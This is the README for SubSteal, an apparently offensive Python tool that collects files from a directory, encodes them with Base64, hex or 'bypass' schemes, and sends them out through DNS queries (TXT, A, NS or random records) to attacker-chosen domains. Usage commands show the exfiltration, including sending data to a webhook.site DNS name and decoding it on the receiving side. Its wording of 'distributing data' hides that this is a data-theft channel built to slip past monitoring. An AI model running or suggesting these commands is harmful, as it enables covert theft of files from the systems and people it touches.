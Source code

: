 # SubSteal

## Description
SubSteal is a Python script designed to send data to subdomains using various encryption methods. This script can be used to distribute data across multiple domains and query them using different DNS record types.

## Features
- Collects files from a specified directory.
- Encodes data using Base64, hexadecimal, and custom bypass methods.
- Sends data to subdomains using DNS queries.
- Supports multiple DNS query modes: TXT, A, NS, and RANDOM.

## Requirements
- Python 3.x
- `os`, `subprocess`, `base64`, `json`, `binascii`, `time`, `argparse`, `random`, `signal`, `sys` modules (standard Python libraries)
- dig

## Installation
Clone the repository:
```
git clone https://github.com/mel4mi/SubSteal
cd SubSteal
python3 SubSteal.py
```



# Usage
Run the script with the required arguments:

Arguments:
```
--domains       #List of domains to distribute data across (required).
--encryption    #Encryption method to use (xxd, low_bypass, medium_bypass) (required).
--mode          #Query mode (TXT, A, NS, RANDOM). Default is TXT.
```

Example Usage: 



if you want to divide the packages into more than one domain:
```
python3 SubSteal.py --domains example.com example2.com --encryption <Encryption_Method>
```
```
python3 SubSteal.py --domains example.com example2.com example3.com --encryption <Encryption_Method>
```

to work on a single domain:
```
python3 SubSteal.py --domains example.com --encryption <Encryption_Method>
```
to send the dns record you want:
```
python3 SubSteal.py --domains example.com --encryption <Encryption_Method> --mode <Query_Mode>
```
to send random dns records:
```
python3 SubSteal.py --domains example.com --encryption <Encryption_Method> --mode RANDOM
```
Try on WebHook:
1. Go [Webhook](https://webhook.site/)
2. Copy "Your unique DNS name" Url
3. Run the command:
 ```
python3 SubSteal.py --domains <Webhook_Dns_Domain> --encryption xxd
```

Client Side:

![Foto](photos/1.png)

Server Side:

![Foto](photos/3.png)

4. Collect data and decrypt

![Foto](photos/2.png)
